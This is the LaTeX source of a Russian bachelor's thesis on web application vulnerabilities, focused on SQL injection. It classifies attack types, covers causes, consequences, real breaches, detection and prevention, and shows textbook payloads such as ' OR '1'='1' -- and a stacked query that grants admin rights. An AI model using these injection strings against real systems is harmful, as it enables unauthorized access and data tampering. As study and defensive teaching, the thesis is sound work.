
\documentclass[a4paper,12pt]{diplom}
% \usepackage[latin1]{inputenc}
% \usepackage[utf8]{inputenc}
\inputencoding{utf8} % Кодировка вашего файла


\usepackage{paratype} % Шрифты (можно отключить, если дает ошибку)
%% Немного увеличим шрифт в математическом режиме, чтобы соответствовать размерам Paratype-шрифтов
\DeclareMathSizes{12}{13.4}{11}{10}

\usepackage[left=3cm,right=2cm,top=2cm,bottom=2cm]{geometry} % Размеры полей
\usepackage[onehalfspacing]{setspace} % Полуторный интервал
%\renewcommand{\baselinestretch}{1.25} % Полуторный интервал
\usepackage{indentfirst} % Абзацный отступ в начале разделов
\setlength{\parindent}{1.25cm} % Величина абзацного отступа

\usepackage[pdftex]{graphicx} % Для вставки изображений
\usepackage{array} % Для таблиц
\usepackage{booktabs} % Для красивых таблиц 
\usepackage{tikz} % Рисунки с помощью TikZ
\usepackage[linesnumbered,lined,ruled]{algorithm2e} % Для оформления псевдокода
%\usepackage{algorithm} % Альтернатива оформления псевдокода
%\usepackage{algpseudocode} % Альтернатива оформления псевдокода
\usepackage{listings} % Оформление листингов программ
\usepackage{icomma} % Удаляем тонкий пробел после запятой в мат. режиме

% Если на нумерованную формулу нет ссылки в тексте,
\mathtoolsset{showonlyrefs} % то она становится ненумерованной

% microtype улучшает распределение символов в строке
\usepackage{microtype}  % Можно отключить, если возникают ошибки компиляции

% Формируем PDF с полноценными перекрестными ссылками
\usepackage[unicode, pdfborder={0 0 0}, pdfstartview=FitV]{hyperref}

% Часто используемые макросы
\newcommand{\N}{\mathbb{N}}  % Множество натуральных чисел
\newcommand{\Z}{\mathbb{Z}}  % Множество целых чисел
\newcommand{\R}{\mathbb{R}}  % Множество действительных чисел
\DeclareMathOperator{\sgn}{sgn} % Знак числа
\DeclareMathOperator{\M}{\mathsf{M}} % Матожидание
\newcommand{\from}{\colon} % Двоеточие в определении функции. Пример: $f \from \R \to \N$.
% Заменяем англоязычные обозначения на русские
\renewcommand{\le}{\leqslant}
\renewcommand{\leq}{\leqslant}
\renewcommand{\ge}{\geqslant}
\renewcommand{\geq}{\geqslant}
\renewcommand{\emptyset}{\varnothing}
\renewcommand{\epsilon}{\varepsilon}


%%%%%%%%%%%%%%%%%%%%%%%%%%
% Конец преамбулы
%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{document}
	
	% Настраиваем общее для всех языков оформление листинга
	\lstset{
		%	breaklines=true,
		%	frame=l,
		%	showstringspaces=false,
		tabsize=4, % длина табуляции в пробелах
		formfeed=\newpage, % реакция на символ "form feed"
		extendedchars=true, % используем неанглийские буквы
		basicstyle=\ttfamily, % базовый стиль
		%	keywordstyle=\bfseries, % стиль ключевых слов (попробуйте \pmb если \bfseries не работает)
		commentstyle=\rmfamily\itshape, % стиль для комментариев
		stringstyle=\slshape, % стиль строк в кавычках
		numbers=left, % где проставляем номера строк; возможные значения: none, left, right
		numbersep=1em, % расстояние (по горизонтали) от номеров строк до кода
		stepnumber=1, % шаг отображения номеров строк. Если 1, то каждая строка помечается номером
		numberstyle=\footnotesize\color{black}, % стиль для номеров строк
	}
	
	
	% Содержимое титульного листа
	
	%\LetterHead{Минобр...}
	\Kafedra{Кафедра компьютерной безопасности и математических 
		методов обработки информации}
	
	% Зав. кафедрой
	\ZavKaf{Заведующий кафедрой,\\ к.\,ф.-м.\,н., доцент}{Мурин Д.М.}
	% Если это курсовая работа и виза зав. каф. не нужна, раскомментируйте следующую строку
	%\Kursovaya
	
	% Вид работы: Курсовая работа, Выпускная квалификационная работа, 
	\DocumentType{\large Выпускная квалификационная работа}
	
	% Название дипломной работы
	\Title{\begin{Large}\bfseries Анализ уязвимостей \\веб-приложений\end{Large}}
	
	% Направление подготовки
	\Napr{по направлению\\ 10.03.01 Информационная безопасность}
	
	% Руководитель
	\Chief{Научный руководитель\\ старший преподаватель}{~Власова О.\,В.}
	
	% Автор
	\Author{Студент группы ИБ-41БО}{С.\,И.~Штанько}
	
	%\City{Ярославль}
	%\Year{2017}
	
	
	% Создаем титульный лист
	\maketitle
	\textbf{Реферат}
	
	Объем \total{page} с., \total{chapternum} гл., \total{fignum} рис.,
	\total{tablenum} табл., \total{bibnum} источников, \total{appnum} прил.
	
	\medskip
	
	Ключевые слова: \textbf{Уязвимости веб-приложений, анализ безопасности сайтов}
	
	\medskip
	
	
	% Содержание
	\tableofcontents[Содержание]
	
	
	% Пример ненумерованной главы
	\chapternonum{Введение}
	
	
	Современный мир характеризуется стремительным развитием информационных технологий, все большей интеграцией цифровых решений в различные сферы жизни и деятельности. Веб-приложения стали неотъемлемой частью повседневности, обеспечивая доступ к услугам, информации и коммуникации. С ростом их популярности и сложности возрастает и актуальность обеспечения их безопасности. Уязвимости веб-приложений представляют собой лазейки, которые могут быть использованы злоумышленниками для нанесения ущерба пользователям, организациям и системам.
	
	Актуальность темы дипломной работы обусловлена возрастающей угрозой кибербезопасности, связанной с уязвимостями веб-приложений. Кибератаки становятся всё более изощрёнными и масштабными, а их последствия могут быть катастрофическими, приводя к утечке конфиденциальной информации, финансовым потерям и репутационному ущербу. 
	
	Цель дипломной работы – комплексное изучение и анализ наиболее распространенных уязвимостей веб-приложений, а также методов их обнаружения, предотвращения и устранения.
	
	Задачи дипломной работы:
	
	\begin{itemize}
		\item Рассмотреть основные виды уязвимостей веб-приложений, такие как инъекции SQL, межсайтовый скриптинг (XSS), подделка межсайтовых запросов (CSRF) и другие.
		\item Изучить причины возникновения уязвимостей, их потенциальные последствия и угрозы для безопасности веб-приложений.
		\item Проанализировать методы и инструменты для обнаружения и предотвращения уязвимостей веб-приложений.
		\item Изучить практические примеры и рекомендации по обеспечению безопасности веб-приложений.
		\item Провести анализ конкретных случаев уязвимостей и рассмотреть методы их устранения.
	\end{itemize}
	
	Объектом исследования дипломной работы являются веб-приложения, а предметом исследования – уязвимости веб-приложений и методы обеспечения их безопасности.
	
	Методологической основой дипломной работы служат методы анализа, синтеза, сравнения и обобщения информации из различных источников, включая научные статьи, техническую документацию, отчеты по безопасности и практические руководства.
	
	Практическая значимость дипломной работы заключается в возможности использования полученных знаний и рекомендаций для повышения безопасности веб-приложений, разработки защищенных программных продуктов и снижения рисков кибератак. 
	
	Результаты данной работы могут быть полезны разработчикам веб-приложений, специалистам по информационной безопасности, студентам и всем, кто интересуется вопросами кибербезопасности.
	
	
	% Если исходное название содержит специальные символы (например, \\),
	% то в квадратных скобках пишем упрощенный вариант названия для "Содержания".
	\chapter[Инъекции SQL]{Инъекции SQL}
	
	
	\section {Определение и примеры инъекций SQL.}
	
	
	\subsection{Сущность инъекции SQL}
	
	Инъекция SQL (SQL Injection) – это тип атаки, направленной на веб-приложения, использующие базы данных. Принцип ее действия заключается во внедрении вредоносного SQL-кода в поля ввода данных приложения. Цель такой атаки – исказить логику выполнения SQL-запросов, отправляемых к базе данных. В результате злоумышленник может получить несанкционированный доступ к чувствительным данным, манипулировать ими, нарушать работу приложения и даже получить полный контроль над сервером базы данных.
	
	
	\subsection{Механизм атаки}
	
	Для успешной реализации инъекции SQL злоумышленник должен воспользоваться уязвимостью в коде приложения, которая возникает при недостаточной проверке и обработке пользовательского ввода. 
	
	Этапы атаки:
	\begin{enumerate}[label=\arabic{enumi})]
		\item \textbf{Идентификация уязвимости: }
			Злоумышленник анализирует приложение, чтобы найти поля ввода, которые не проходят должную валидацию и фильтрацию данных.  Это могут быть формы авторизации, поиска, регистрации, комментарии и другие элементы взаимодействия с пользователем. 
		\item \textbf{Внедрение вредоносного кода: }
			Злоумышленник вводит в уязвимое поле специальным образом сформированный SQL-код. Этот код может быть предназначен для обхода аутентификации, извлечения данных, модификации записей или выполнения других вредоносных действий.
		\item \textbf{Исполнение измененного запроса: }
			Приложение, не распознавая вредоносный код, формирует SQL-запрос с учетом пользовательского ввода и отправляет его к базе данных. 
		\item \textbf{Получение доступа к данным или выполнение несанкционированных действий: }
			База данных выполняет измененный запрос, предоставляя злоумышленнику 	несанкционированный доступ к данным, возможность их модификации или выполнения других команд. 
	\end{enumerate}
	
	
	\subsection{Классификация инъекций SQL}
	
	По методу получения данных:
	\begin{enumerate}[label=\arabic{enumi})]
		\item \textbf{Внеполосные (Out-of-band): }
		Злоумышленник получает данные через внешний канал, отличный от используемого приложением.  Например, он может использовать функции базы данных для отправки данных на свой сервер или выполнения запросов к внешним ресурсам.
		\item \textbf{ Инференциальные (Inferential): }
		Злоумышленник анализирует ответы приложения на специально сформированные запросы, чтобы получить информацию о структуре базы данных, наличии определенных записей или содержимом данных.
		\item \textbf{Внедрение кода (Code Injection): }
		Злоумышленник вводит код, который будет выполнен на сервере приложения. Это может быть, например, код на языке базы данных (PL/SQL) или на языке программирования, используемом на сервере.
	\end{enumerate}
	
	По влиянию на приложение:
	\begin{enumerate}[label=\arabic{enumi})]
		\item \textbf{Логические: }
		Злоумышленник изменяет логику работы приложения, например, обходит аутентификацию, получает доступ к чужим данным или изменяет права доступа.
		\item \textbf{Извлечение данных: }
		Злоумышленник получает доступ к конфиденциальным данным, которые не должны быть ему доступны.
		\item \textbf{Модификация данных: }
		Злоумышленник изменяет или удаляет данные в базе данных.
	\end{enumerate}
	
	По способу внедрения вредоносного кода:
	\begin{enumerate}[label=\arabic{enumi})]
		\item \textbf{Ошибка синтаксиса: }
		Злоумышленник вводит символы, которые нарушают синтаксис SQL-запроса, что позволяет ему изменить логику его выполнения. 
		\item \textbf{Объединение запросов (Union-based): }
		Злоумышленник добавляет к исходному запросу еще один запрос, используя оператор UNION, чтобы получить доступ к данным из другой таблицы.
		\item \textbf{Внедрение подзапросов: }
		Злоумышленник внедряет подзапрос, который изменяет логику работы исходного запроса. 
	\end{enumerate}
	
	
	
	\subsection{Примеры инъекций SQL}
	
	\textbf{Пример 1 (Обход аутентификации):}\\
	Предположим, приложение использует следующий запрос для аутентификации пользователя:
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]		
SELECT * FROM users 
WHERE username = '$username' AND password = '$password';
	\end{lstlisting}
	
	Злоумышленник может ввести в поле "username" значение `' OR '1'='1' --` .  В результате получится следующий запрос: 
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]		
SELECT * FROM users 
WHERE username = '' OR '1'='1' --' AND password = '$password';
	\end{lstlisting}
	
	Поскольку условие `'1'='1'` всегда истинно, запрос вернет первую запись из таблицы `users`,  предоставляя злоумышленнику доступ к системе.
	
	\textbf{Пример 2 (Извлечение данных):}\\
	Предположим, приложение использует следующий запрос для поиска товара по его названию:
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
SELECT * FROM products 
WHERE name LIKE '%$search_term%';
	\end{lstlisting}  
	Злоумышленник может ввести в поле поиска значение ``' OR 1=1; - -`` . В результате получится следующий запрос: 
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
SELECT * FROM products 
WHERE name LIKE '%' OR 1=1; --%'; 
	\end{lstlisting}  
	В данном случае условие WHERE всегда будет истинным (1=1), что приведет к извлечению всех записей из таблицы products, независимо от значения name. Злоумышленник может получить доступ к информации о всех товарах, даже если у него нет разрешения на это.
	
	\textbf{Пример 3 (Модификация данных):}\\
	Предположим, приложение использует следующий запрос для обновления профиля пользователя:
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]		
UPDATE users SET email = '$email' 
WHERE username = '$username';
	\end{lstlisting}
	
	Злоумышленник может ввести в поле "email" значение \\
	`'new-email'; UPDATE users SET isAdmin = 1 WHERE username = 'attacker'; --` . \\
	В результате получится следующий запрос:
	
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]		
UPDATE users SET email = 'new-email'; 
UPDATE users SET isAdmin = 1
WHERE username = 'attacker'; --' WHERE username = '$username';
	\end{lstlisting}
	
	Этот запрос сначала обновит email для всех пользователей, а затем установит флаг `isAdmin` для пользователя `attacker`,  предоставив ему права администратора. 
	Примеры инъекций SQL наглядно демонстрируют опасность данного типа атак и необходимость принятия мер для их предотвращения.
	
	
	
	
	
	
	
	
	\section{Причины возникновения инъекций SQL}
	
	Инъекции SQL остаются одной из наиболее распространенных и опасных уязвимостей веб-приложений.  Их возникновение обусловлено рядом факторов, связанных с ошибками проектирования, разработки и эксплуатации приложений.
	
	\subsection{Недостаточная валидация и фильтрация пользовательского ввода}
	
	Основная причина уязвимости к инъекциям SQL - недостаточная проверка и фильтрация данных, вводимых пользователем.  При создании прилоложений часто предполагается, что пользователи будут вводить только корректные и ожидаемые данные,  но злоумышленники могут использовать специальные символы и конструкции SQL-языка, чтобы изменить логику запросов к базе данных.  
	
	\textbf{Примеры недостаточной валидации:}
	
	\begin{enumerate}[label=\arabic{enumi})]
		\item Приложение не проверяет тип данных, например, ожидает число, но принимает строку, содержащую SQL-код.
		\item Приложение не ограничивает длину вводимых данных, что позволяет злоумышленнику ввести длинную строку с вредоносным кодом.
		\item Приложение не экранирует специальные символы, такие как кавычки, точки с запятой и другие, которые могут быть использованы для внедрения SQL-кода.
	\end{enumerate}
	
	\subsection{Использование динамических SQL-запросов}
	
	Динамические SQL-запросы формируются на основе пользовательского ввода, что делает их уязвимыми к инъекциям.  Если данные не проходят должную обработку перед включением в запрос, злоумышленник может внедрить свой код и изменить логику его выполнения. 
	
	\textbf{Пример динамического SQL-запроса:}
	
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
String query = "SELECT * FROM users
WHERE username = '" +
username + 
"' AND password = '" + password + "'";
	\end{lstlisting}
	
	В этом примере, если пользователь введет в поле `username` значение `' OR '1'='1' --`,  то получится следующий запрос: 
	
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
SELECT * FROM users 
WHERE username = '' OR '1'='1' --' AND password = '$password';
	\end{lstlisting}
	
	Этот запрос вернет все записи из таблицы `users`,  поскольку условие `'1'='1'`  всегда истинно. 
	
	\subsection{Неправильная конфигурация базы данных}
	
	Некорректные настройки базы данных также могут способствовать возникновению уязвимостей.  Например,  если учетная запись базы данных, используемая приложением, имеет избыточные привилегии,  то злоумышленник,  получив доступ к ней,  сможет выполнить больше вредоносных действий. 
	
	\textbf{Примеры неправильной конфигурации:}
	
	\begin{enumerate}[label=\arabic{enumi})]
		\item Учетная запись базы данных имеет права на выполнение команд, которые не требуются для работы приложения, например, на удаление таблиц.
		\item База данных разрешает выполнение пакетных запросов (batch queries),  что позволяет злоумышленнику выполнить несколько SQL-запросов в одном вызове. 
		\item База данных использует слабые пароли или хранит их в незашифрованном виде.
	\end{enumerate}
	
	\subsection{Использование устаревшего программного обеспечения}
	
	Устаревшее программное обеспечение,  включая базы данных и библиотеки для работы с ними, может содержать известные уязвимости, которые могут быть использованы для инъекций SQL.  Важно регулярно обновлять ПО, чтобы устранять уязвимости и минимизировать риски.
	
	\subsection{Недостаточное обучение и осведомленность разработчиков}
	
	Разработчики веб-приложений должны быть осведомлены о проблеме инъекций SQL и методах их предотвращения. Недостаточное обучение и понимание рисков могут привести к ошибкам в коде, которые сделают приложение уязвимым.
	
	\subsection{Использование небезопасных функций}
	
	Некоторые функции, предоставляемые базами данных и библиотеками, могут быть небезопасными, если их использовать неправильно. Например, функции для конкатенации строк могут быть использованы для внедрения SQL-кода, если пользовательский ввод не проходит предварительную обработку. 
	
	\textbf{Пример небезопасной функции:}
	
	\begin{lstlisting}[ language=SQL, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
String query = "SELECT * FROM users 
WHERE username = '" + escape(username) + "'";
	\end{lstlisting}
	
	В этом примере функция `escape()`  может быть небезопасной, если она не экранирует все специальные символы. 
	
	\subsection{Человеческий фактор}
	
	Ошибки разработчиков,  небрежность при настройке сервера базы данных или недостаточная осведомленность пользователей о рисках могут привести к уязвимостям и успешным атакам.
	
	\textbf{Примеры человеческого фактора:}
	
	\begin{enumerate}[label=\arabic{enumi})]
		\item Разработчик забыл проверить пользовательский ввод перед использованием его в SQL-запросе.
		\item Администратор базы данных установил слабый пароль для учетной записи приложения. 
		\item Пользователь открыл фишинговое письмо и ввел свои учетные данные на поддельном сайте. 
	\end{enumerate}
	
	 Учитывая многообразие причин возникновения инъекций SQL,  важно применять комплексный подход к обеспечению безопасности веб-приложений,  который включает в себя меры по предотвращению,  обнаружению и устранению уязвимостей.
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Возможные последствия и угрозы для приложений и баз данных}
	 
	 Успешная инъекция SQL может иметь серьезные последствия для веб-приложений и баз данных, приводя к нарушению конфиденциальности, целостности и доступности данных, а также к финансовым и репутационным потерям. 
	 
	 \subsection{Нарушение конфиденциальности данных}
	 
	 Злоумышленники могут использовать инъекции SQL для получения несанкционированного доступа к конфиденциальным данным, таким как:
	 
	 \begin{itemize}
	 	\item \textbf{Персональные данные пользователей:} имена, адреса, номера телефонов, паспорта, данные кредитных карт и другая чувствительная информация.
	 	\item \textbf{Финансовая информация:} данные о банковских счетах, транзакциях, платежах и другие финансовые сведения.
	 	\item \textbf{Коммерческая тайна:} информация о продуктах, услугах, партнерах, клиентах и другие конфиденциальные данные компании. 
	 \end{itemize}
	 
	 Утечка таких данных может привести к мошенничеству, шантажу, краже личных данных и другим серьезным последствиям.
	 
	 \subsection{Нарушение целостности данных}
	 
	 Инъекции SQL могут быть использованы для модификации или удаления данных в базе данных, что может привести к:
	 
	 \begin{itemize}
	 	\item \textbf{Искажению информации:} злоумышленник может изменить данные о пользователях, продуктах, заказах и т. д., что приведет к ошибкам в работе приложения и принятию неверных решений.
	 	\item \textbf{Потере данных:} злоумышленник может удалить важные данные, что приведет к нарушению работы приложения и финансовым потерям.
	 	\item \textbf{Внедрению ложной информации:} злоумышленник может добавить в базу данных ложные записи, что может быть использовано для мошенничества или дезинформации. 
	 \end{itemize}
	 
	 \subsection{Нарушение доступности данных}
	 
	 Инъекции SQL могут быть использованы для нарушения работы приложения и базы данных, что приведет к:
	 
	 \begin{itemize}
	 	\item \textbf{Отказу в обслуживании (DoS):} злоумышленник может отправить запрос, который приведет к высокой нагрузке на сервер базы данных, что сделает приложение недоступным для пользователей.
	 	\item \textbf{Повреждению базы данных:} злоумышленник может выполнить команды, которые приведут к повреждению структуры базы данных или ее файлов, что сделает данные недоступными.
	 	\item \textbf{Взлому сервера:} злоумышленник может использовать инъекцию SQL для получения доступа к серверу базы данных и дальнейшего его взлома.
	 \end{itemize} 
	 
	 \subsection{Финансовые потери}
	 
	 Последствия инъекций SQL могут привести к значительным финансовым потерям для компании, включая:
	 
	 \begin{itemize}
	 	\item \textbf{Ущерб от мошенничества:} злоумышленники могут использовать украденные данные для совершения мошеннических операций, что приведет к финансовым потерям для компании и ее клиентов. 
	 	\item \textbf{Штрафы за нарушение законодательства:} утечка персональных данных может привести к штрафам со стороны регулирующих органов. 
	 	\item \textbf{Расходы на восстановление данных и системы:} восстановление базы данных и системы после атаки может потребовать значительных финансовых затрат. 
	 	\item \textbf{Потеря доверия клиентов:} инциденты с безопасностью могут привести к потере доверия клиентов и снижению репутации компании. 
	 \end{itemize}
	 
	 \subsection{Репутационные потери}
	 
	 Инциденты с безопасностью, связанные с инъекциями SQL, могут серьезно повредить репутации компании.  Клиенты могут потерять доверие к компании, что приведет к снижению продаж и потере доли рынка.  Кроме того, инциденты с безопасностью могут негативно повлиять на отношения с партнерами и инвесторами. 
	 
	 \subsection{Примеры реальных инцидентов}
	 
	 \begin{itemize}
	 	\item \textbf{Взлом компании TalkTalk (2015):} Хакеры использовали инъекцию SQL для получения доступа к данным 157 000 клиентов, включая имена, адреса, даты рождения, номера телефонов и данные банковских карт. Компания была оштрафована на £400 000 за нарушение законодательства о защите данных.\cite{2015_TalkTalk_data_breach}
	 	\item \textbf{Взлом сайта Freepik (2020): } Хакеры использовали инъекцию SQL для получения доступа к внутреннему серверу базы данных с пользовательскими данными. Были похищены данные более 8 млн. пользователей. Сайт понес огромные финансовые и репутационные потери. \cite{2020_freepik_data_breach}
	 \end{itemize}
	 
	 \textbf{Примеры реальных инцидентов наглядно демонстрируют серьезность угрозы,  которую представляют инъекции SQL.  Поэтому важно применять эффективные меры для защиты веб-приложений и баз данных от данного типа атак.} 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Методы обнаружения и предотвращения инъекций SQL}
	 
	 Для обеспечения безопасности веб-приложений и защиты от инъекций SQL необходимо применять комплекс мер,  включающий методы обнаружения уязвимостей,  предотвращения атак и минимизации их последствий. 
	 
	 \subsection{Методы обнаружения уязвимостей}
	 
	 Существует несколько методов обнаружения уязвимостей к инъекциям SQL:
	 
	 \begin{itemize}
	 	\item \textbf{Ручное тестирование:} опытные специалисты по безопасности могут вручную анализировать код приложения и проводить тесты на наличие уязвимостей.  Этот метод требует высокой квалификации и может быть трудоемким. 
	 	\item \textbf{Автоматизированное сканирование:} существуют специальные инструменты для автоматического сканирования веб-приложений на наличие уязвимостей,  включая инъекции SQL.  Эти инструменты могут быть полезны для быстрого выявления потенциальных проблем,  но они не всегда могут обнаружить все уязвимости. 
	 	\item \textbf{Анализ исходного кода:} анализ исходного кода приложения может помочь выявить участки кода, которые могут быть уязвимы к инъекциям SQL.  Этот метод требует доступа к исходному коду и может быть сложным для больших приложений. 
	 	\item \textbf{Фаззинг:} фаззинг - это метод тестирования, при котором приложению отправляются случайные или специально сформированные данные для выявления ошибок и уязвимостей.  Фаззинг может быть эффективным методом обнаружения уязвимостей к инъекциям SQL. 
	 \end{itemize}
	 
	 \subsection{Методы предотвращения атак}
	 
	 Существует несколько методов предотвращения атак с использованием инъекций SQL:
	 
	 \begin{itemize}
	 	\item \textbf{Валидация и фильтрация пользовательского ввода:} все данные, полученные от пользователя, должны быть проверены на соответствие ожидаемому типу, формату и длине.  Специальные символы, которые могут быть использованы для внедрения SQL-кода,  должны быть экранированы или удалены. 
	 	\item \textbf{Использование параметризованных запросов:} параметризованные запросы - это способ создания SQL-запросов, при котором пользовательский ввод передается отдельно от самого запроса.  Это позволяет избежать внедрения SQL-кода, так как база данных обрабатывает пользовательский ввод как данные, а не как часть запроса. 
	 	\item \textbf{Использование хранимых процедур:} хранимые процедуры - это предварительно скомпилированные SQL-запросы, которые хранятся на сервере базы данных.  Использование хранимых процедур может помочь предотвратить инъекции SQL, так как они ограничивают возможности злоумышленника по изменению логики запроса. 
	 	\item \textbf{Принцип наименьших привилегий:} учетные записи базы данных, используемые приложением, должны иметь минимальные необходимые привилегии для выполнения своих функций.  Это ограничивает возможности злоумышленника, если он получит доступ к учетной записи. 
	 	\item \textbf{Регулярное обновление программного обеспечения:} устаревшее программное обеспечение может содержать известные уязвимости, которые могут быть использованы для инъекций SQL.  Важно регулярно обновлять ПО, чтобы устранять уязвимости и минимизировать риски. 
	 \end{itemize}
	 
	 \subsection{Минимизация последствий}
	 
	 Даже при применении мер по предотвращению атак, всегда есть вероятность, что злоумышленник сможет найти и использовать уязвимость.  Поэтому важно принимать меры для минимизации последствий успешных атак:
	 
	 \begin{itemize}
	 	\item \textbf{Мониторинг и аудит:} регулярный мониторинг активности базы данных и аудит журналов событий может помочь выявить подозрительную активность и своевременно реагировать на атаки. 
	 	\item \textbf{Резервное копирование данных:} регулярное резервное копирование данных позволяет восстановить информацию в случае ее потери или повреждения. 
	 	\item \textbf{Планы реагирования на инциденты:} компания должна иметь план реагирования на инциденты безопасности, который определяет действия, которые необходимо предпринять в случае атаки. 
	 \end{itemize}
	 
	 \textbf{Применение комплексного подхода к обнаружению, предотвращению и минимизации последствий инъекций SQL является ключевым фактором для обеспечения безопасности веб-приложений и баз данных.} 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Инструменты и техники для защиты от инъекций SQL}
	 
	 Существует множество инструментов и техник, которые помогают разработчикам и специалистам по безопасности защитить веб-приложения от инъекций SQL.  Рассмотрим некоторые из наиболее распространенных и эффективных вариантов.
	 
	 \subsection{Инструменты статического анализа кода}
	 
	 Статический анализ кода - это процесс автоматического анализа исходного кода программы для выявления потенциальных ошибок и уязвимостей.  Существуют инструменты статического анализа кода,  специально предназначенные для обнаружения уязвимостей к инъекциям SQL:
	 
	 \begin{itemize}
	 	\item \textbf{FindBugs}:  бесплатный инструмент с открытым исходным кодом, который анализирует Java-код и выявляет различные уязвимости,  включая инъекции SQL. \cite{FindBugs_tool}
	 	\item \textbf{Yasca}:  еще один бесплатный инструмент с открытым исходным кодом, который поддерживает анализ кода на нескольких языках программирования,  включая Java,  Python и C++. \cite{Yasca_tool}
	 	\item \textbf{SonarQube}:  платформа для статического анализа кода,  которая предлагает широкий спектр функций,  включая обнаружение инъекций SQL,  анализ качества кода и управление техническим долгом. \cite{SonarQube_tool}
	 \end{itemize}
	 
	 \subsection{Инструменты динамического анализа приложений}
	 
	 Динамический анализ приложений (DAST) - это процесс тестирования безопасности работающего приложения.  DAST-инструменты могут автоматически отправлять запросы к приложению и анализировать ответы для выявления уязвимостей,  включая инъекции SQL:
	 
	 \begin{itemize}
	 	\item \textbf{OWASP ZAP}:  бесплатный инструмент с открытым исходным кодом,  который предлагает широкий спектр функций для динамического анализа веб-приложений,  включая сканирование на наличие инъекций SQL,  межсайтовый скриптинг (XSS) и другие уязвимости. \cite{ZAP_tool}
	 	\item \textbf{Burp Suite}:  коммерческий инструмент, который предлагает продвинутые функции для ручного и автоматизированного тестирования безопасности веб-приложений.  Он включает в себя сканер уязвимостей,  перехватчик запросов и другие инструменты,  полезные для обнаружения и эксплуатации инъекций SQL. \cite{Burp_Suite_tool}
	 	\item \textbf{Acunetix}:  коммерческий сканер уязвимостей, который специализируется на автоматическом обнаружении широкого спектра уязвимостей веб-приложений,  включая инъекции SQL,  XSS и CSRF. \cite{Acunetix_tool}
	 \end{itemize}
	 
	 \subsection{Фаззеры}
	 
	 Фаззеры - это инструменты, которые автоматически генерируют и отправляют некорректные или неожиданные данные в приложение для выявления ошибок и уязвимостей.  Фаззеры могут быть эффективными для обнаружения уязвимостей к инъекциям SQL:
	 
	 \begin{itemize}
	 	\item \textbf{Sulley Fuzzing Framework}:  бесплатный инструмент с открытым исходным кодом. Он был специально разработан для работы в течении нескольких дней и автоматизации процесса фаззинга. \cite{Sulley_tool}
	 	\item \textbf{wfuzz}:  универсальный фаззер,  который может быть использован для тестирования различных протоколов и приложений,  включая веб-приложения.  Он может быть настроен для обнаружения инъекций SQL путем отправки специально сформированных запросов. \cite{Wfuzz_tool}
	 \end{itemize}
	 
	 \subsection{Техники безопасного программирования}
	 
	 Помимо использования инструментов,  разработчики должны применять техники безопасного программирования,  чтобы предотвратить инъекции SQL:
	 
	 \begin{itemize}
	 	\item \textbf{Валидация и фильтрация пользовательского ввода:}  всегда проверяйте данные,  полученные от пользователя,  на соответствие ожидаемому типу,  формату и длине.  Специальные символы должны быть экранированы или удалены. 
	 	\item \textbf{Использование параметризованных запросов:}  всегда используйте параметризованные запросы вместо конкатенации строк для создания SQL-запросов. 
	 	\item \textbf{Использование хранимых процедур:}  рассмотрите возможность использования хранимых процедур для выполнения типовых операций с базой данных. 
	 	\item \textbf{Принцип наименьших привилегий:}  предоставляйте учетным записям базы данных минимальные необходимые привилегии. 
	 	\item \textbf{Регулярное обновление ПО:}  обновляйте программное обеспечение,  используемое в приложении,  включая библиотеки и фреймворки,  до последних версий,  чтобы устранять известные уязвимости. 
	 \end{itemize}
	 	
	 \textbf{Применение этих инструментов и техник поможет разработчикам создавать более безопасные веб-приложения и защитить их от инъекций SQL.} 
	 
	 
	 
	 
	 \section{Исследование sql-инъекции на практическом примере}
	 
	 В целях соблюдения закона для практического примера мы будем использовать самописный сайт поднятый на локальной машине. Концепция сайта: двухстраничный сайт, одна из страниц отвечает за авторизацию пользователя, а вторая представляет из себя небольшой чат с асинхронным обновлением сообщений раз в 3 секунды и с возможностью отправить сообщение от имени авторизованного на первой странице пользователя. Сайт целеноправленно создавался, как доверяющий вводу пользователя, поэтому имеет низкую безопасность и огромное количество уязвимостей.
	 
	 На скриншоте можно увидеть окно авторизации с уже введенными логином и паролем:
	 
	 \begin{figure}[!ht]
	 	\centering
